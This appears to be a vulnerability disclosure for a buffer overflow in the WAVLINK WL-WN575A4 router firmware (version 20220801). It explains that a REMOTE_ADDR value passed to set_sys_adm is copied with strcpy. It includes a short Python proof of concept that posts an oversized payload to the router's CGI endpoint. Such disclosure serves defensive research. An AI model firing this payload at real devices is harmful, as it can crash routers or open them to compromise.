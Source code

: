 # buffer overflow

## WAVLINK_WL_WN575A4

version: 20220801

## Description:

There is a buffer overflow in adm.cgi/set_sys_adm

## Source:

you may download it from : https://www.wavlink.com/zh_cn/firmware/details/a3d6df692e.html

## Analyse:


![](1.png)

get value from REMOTE_ADDR ,and call strcpy, cause buff overflow



## POC
```
url = "http://192.168.0.1/cgi-bin/set_sys_adm.cgi"
payload = 'A'*300 + '\n'

r = requests.post(url, data={ 'page=sysAdm&REMOTE_ADDR=' + payload})
``` 
